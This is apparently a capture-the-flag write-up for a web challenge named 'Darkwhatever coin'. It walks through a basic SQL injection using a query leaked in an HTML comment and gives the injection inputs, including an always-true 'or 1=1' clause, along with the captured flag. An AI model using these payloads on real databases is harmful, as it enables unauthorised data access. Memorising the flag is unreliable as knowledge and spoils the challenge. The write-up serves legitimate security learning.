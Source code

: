 # Darkwhatever coin
http://chal.firebird.sh:32001/q1/

1. Try some input: team1
![alt text](http://url/to/img.png)

- After the input, we can see the SQL as hint:　
```
<!-- SELECT teamname, balance FROM balances WHERE teamname='team1' -->
```

2. Instead of team1, we can try to insert extra items at the end of SQL
- Try another input: team1' or teamname=team2'
![alt text](http://url/to/img.png)

- After the input, we can see it displays team1 and team2

3. For SQL where clause, we can put a statement in between to make it always TRUE, thus the SQL statment can display all records in the table
- Input: team1' or 1=1 or teamname=team2'
![alt text](http://url/to/img.png)

Flag obtained:
flag{Sqli_1s_s1mple_uq6rR2U6Ad}
